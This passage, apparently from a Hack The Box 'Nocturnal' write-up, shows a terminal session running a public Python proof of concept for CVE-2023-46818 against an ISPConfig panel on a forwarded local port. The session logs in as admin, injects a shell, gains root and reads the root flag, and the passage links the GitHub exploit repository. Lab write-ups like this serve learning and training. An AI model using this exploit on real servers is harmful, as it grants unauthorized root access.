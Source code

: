 A Python exploit already exists for this CVE as a PoC on GitHub. [^2]

```sh
┌──(kali㉿kali)-[~/Desktop/HTB/Nocturnal/CVE-2023-46818-python-exploit]
└─$ python exploit.py http://127.0.0.1:1234/ admin ****
[+] Target URL: http://127.0.0.1:1234/
[+] Logging in with username 'admin' and password '****'
[+] Injecting shell
[+] Launching shell

ispconfig-shell# whoami
root

ispconfig-shell# cat /root/root.txt
0ca4****
```

### References
[^1]:[https://crackstation.net/](https://crackstation.net/)
[^2]:[https://github.com/bipbopbup/CVE-2023-46818-python-exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)